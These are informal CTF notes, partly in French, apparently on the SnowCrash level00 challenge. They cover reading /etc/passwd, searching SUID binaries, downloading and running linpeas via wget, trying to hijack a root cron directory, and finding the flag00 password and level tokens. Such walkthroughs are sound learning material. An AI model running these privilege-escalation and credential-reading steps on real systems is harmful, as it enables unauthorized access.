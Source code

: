 
1.  Going to the root by /cd
    
2.  cat /etc/passwd. It works. We can see the flag01 : **42hDRfypTqqnw**
    
3.  i tried to connect to flag01 with this pwd but does not work
    
4.  Then we execute `find / -perm -u=s -type f 2>/dev/null` ****to find all SUID files. We compare this list to GTFO bin list. We found that the **mtr** program could allow us to read files we should not but we don’t know the folders enough to target a file.
    
5.  Maybe we need to target the program getflag directly. Thaks to the **Whereis getflag** command, we know getflag is in /bin/getflag.
    
    1.  We can execute getflag. It just don’t give the password.
6.  We take getflag on our own computer with **scp -P 4242 [level00@192.168.1.15](mailto:level00@192.168.1.15):/bin/getflag . (**from the host, not the VM). We can now use external tools to know what’s in getflag.
    
7.  After that, i put getflag on DogBolt, an online decompiler
    
8.  Trying to reverse with cutter and dogBolt does not give more infos at first glance.
    
9.  We can execute getflag. So the question is, do we need to connect to flag00 account before runninig it to obtain the flag, or do we need to modify the getflag program behavior in order to get the flag without pass by flag00 account ?
    
10.  We tried to search any file with the string **‘flag00’** thanks to the cmd **grep -r flag00/.** It took a while and did not help us.
    
11.  The system seems to be ReadOnly. We can’t download or import any external content. Edit: it appears to be like this only in the rofs folder (read-only filesystem)
    
12.  No, we can write in some places. We can see them by typing `find / -writable -type d 2>/dev/null`
    
13.  I managed to get linpeas on the vm typing `wget "<https://github.com/carlospolop/PEASS-ng/releases/latest/download/[linpeas.sh](http://linpeas.sh)>" -O linpeas.sh` in the /tmp folder. Then i could run it with **bash [linpeas.sh](http://linpeas.sh)**
    
14.  Here are the valuable infos gave by linpeas :
    
    1.  Crontabs are related to root
        
    2.  Searching uncommon passwd files (splunk) passwd file: /etc/pam.d/passwd passwd file: /etc/passwd passwd file: /usr/share/lintian/overrides/passwd

  The getFlag program takes the uid (**getuid()**) of the user who ran it to perform some checks and give or not the flag.
    
   On sait qu’on peut écrire dans un répertoire présent dans une crontab root (grâce à linpeas). Donc on fait un lien symbolique entre ce folderet getflag dans l’espoir que getflag soit lancé via la crontab root :
    
    **ln -s /bin/getflag /var/lib/php5**
    
   On attends un peu, pas de résultats.
    
   J’essaye de copier getflag dans le dossier php5 et de le renommer en _maxlifetime_ car le crontab à l’air d’exécuter ça. Toujours pas de résultat. Logique la cron semble tourner toutes les trente minutes
    
   Grace à la vidéo de snowCrash, on à un indice avec le mot FIND en majuscule. On cherche dond des fichiers qui s’appellent flag00 avec find : pas de résultat. On cherche ensuite récursivement la string ‘flag00’ dans tous les folders. Sans résultats non plus.
    
   **Du coup on cherche les fichiers qui appartiennent à cet user : find . -user 3000 2>/dev/null**
    
   On cat le premier fichier, on envoie le bordel sur Dcode et ca donne **nottoohardhere.** On se co avec ce mdp a flag00 et on lance getflag et on obtient **x24ti5gi3x0ol2eh4esiuxias** qui nous permet de nous log avec level01